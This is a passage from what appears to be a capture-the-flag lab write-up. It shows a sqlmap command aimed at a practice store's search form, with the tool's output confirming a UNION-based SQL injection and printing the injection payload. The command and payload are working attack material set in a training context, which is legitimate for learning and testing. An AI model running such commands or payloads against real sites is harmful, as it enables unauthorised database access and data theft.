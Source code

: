 Now if you wanted a script to take care of figuring this all out for you, you could have used `sqlmap`

```
sqlmap -u "store.cybercrafted.thm/xxxxxx.php" --method POST --data "search=doesnt&submit=matter" -p search --batch --dump
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.2.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 05:18:28

[05:18:28] [INFO] testing connection to the target URL
[05:18:28] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[05:18:28] [INFO] testing if the target URL content is stable
[05:18:29] [INFO] target URL content is stable
[05:18:29] [WARNING] heuristic (basic) test shows that POST parameter 'search' might not be injectable
[05:18:29] [INFO] testing for SQL injection on POST parameter 'search'
[05:18:29] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[05:18:29] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Parameter replace'
[05:18:29] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[05:18:29] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[05:18:29] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[05:18:30] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[05:18:30] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[05:18:30] [INFO] testing 'MySQL inline queries'
[05:18:30] [INFO] testing 'PostgreSQL inline queries'
[05:18:30] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[05:18:30] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[05:18:30] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[05:18:30] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[05:18:30] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[05:18:30] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[05:18:30] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[05:18:30] [INFO] testing 'Oracle AND time-based blind'
[05:18:30] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[05:18:30] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[05:18:30] [INFO] target URL appears to have 4 columns in query
[05:18:30] [WARNING] applying generic concatenation (CONCAT)
[05:18:30] [INFO] POST parameter 'search' is 'Generic UNION query (NULL) - 1 to 10 columns' injectable
[05:18:30] [INFO] checking if the injection point on POST parameter 'search' is a false positive
POST parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 108 HTTP(s) requests:
---
Parameter: search (POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: search=doesnt' UNION ALL SELECT NULL,NULL,NULL,CONCAT(CONCAT('qqbpq','tCMDIXovbmVxcjxBkbxvhDNNverteIdImoAtEJRH'),'qqbqq')-- YnFh&submit=matter
---
[05:18:30] [INFO] testing MySQL
```